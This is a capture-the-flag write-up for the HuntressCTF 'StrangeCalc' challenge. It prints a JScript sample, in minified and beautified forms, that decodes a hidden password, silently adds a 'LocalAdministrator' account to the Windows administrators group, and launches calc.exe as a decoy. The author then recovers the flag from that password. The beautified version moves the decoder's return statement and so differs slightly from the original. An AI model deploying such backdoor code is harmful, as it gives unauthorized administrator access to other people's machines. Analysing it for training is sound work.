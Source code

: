 ```yaml
---
title: 2024 HuntressCTF - StrangeCalc
date: 2024-10-01T07:00:00-07:00
tags:
  - 
image: /2024-HuntressCTF/strangecalc.png
---
```


### Summary
```

```

### Steps



```js
type u2POGqu61l.js
function a(b){var c="",d=b.split("\n");for(var e=0;e<d.length;e++){var f=d[e].replace(/^\s+|\s+$/g,'');if(f.indexOf("begin")===0||f.indexOf("end")===0||f==="")continue;var g=(f.charCodeAt(0)-32)&63;for(var h=1;h<f.length;h+=4){if(h+3>=f.length)break;var i=(f.charCodeAt(h)-32)&63,j=(f.charCodeAt(h+1)-32)&63,k=(f.charCodeAt(h+2)-32)&63,l=(f.charCodeAt(h+3)-32)&63;c+=String.fromCharCode((i<<2)|(j>>4));if(h+2<f.length-1)c+=String.fromCharCode(((j&15)<<4)|(k>>2));if(h+3<f.length-1)c+=String.fromCharCode(((k&3)<<6)|l)}}return c.substring(0,g)}var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";var n=a(m);var o=["net user LocalAdministrator "+n+" /add","net localgroup administrators LocalAdministrator /add","calc.exe"];var p=new ActiveXObject('WScript.Shell');for(var q=0;q<o.length-1;q++){p.Run(o[q],0,false)}p.Run(o[2],1,false);
```

Using ChatGPT, I prompted it to beautify the code giving me a result of:
```js
function decode(input) {
    var result = "";
    var lines = input.split("\n");

    for (var i = 0; i < lines.length; i++) {
        var line = lines[i].replace(/^\s+|\s+$/g, '');

        // Skip lines that start with "begin", "end" or are empty
        if (line.indexOf("begin") === 0 || line.indexOf("end") === 0 || line === "") {
            continue;
        }

        var length = (line.charCodeAt(0) - 32) & 63;

        for (var j = 1; j < line.length; j += 4) {
            if (j + 3 >= line.length) break;

            var char1 = (line.charCodeAt(j) - 32) & 63;
            var char2 = (line.charCodeAt(j + 1) - 32) & 63;
            var char3 = (line.charCodeAt(j + 2) - 32) & 63;
            var char4 = (line.charCodeAt(j + 3) - 32) & 63;

            result += String.fromCharCode((char1 << 2) | (char2 >> 4));

            if (j + 2 < line.length - 1) {
                result += String.fromCharCode(((char2 & 15) << 4) | (char3 >> 2));
            }

            if (j + 3 < line.length - 1) {
                result += String.fromCharCode(((char3 & 3) << 6) | char4);
            }
        }

        return result.substring(0, length);
    }
}

var encodedString = "begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";
var decodedString = decode(encodedString);

var commands = [
    "net user LocalAdministrator " + decodedString + " /add",
    "net localgroup administrators LocalAdministrator /add",
    "calc.exe"
];

var shell = new ActiveXObject('WScript.Shell');

for (var i = 0; i < commands.length - 1; i++) {
    shell.Run(commands[i], 0, false);
}

shell.Run(commands[2], 1, false);
```

Here we see there is a custom decoding function that will place the variable in the password portion of the net user command. Contiuning to use ChatGPT, I prompted it to decode the password with a result `net user LocalAdministrator flag{9922fb21aaf1757e3fdb28d7890a5d93} /add`.

Flag: flag{9922fb21aaf1757e3fdb28d7890a5d93}

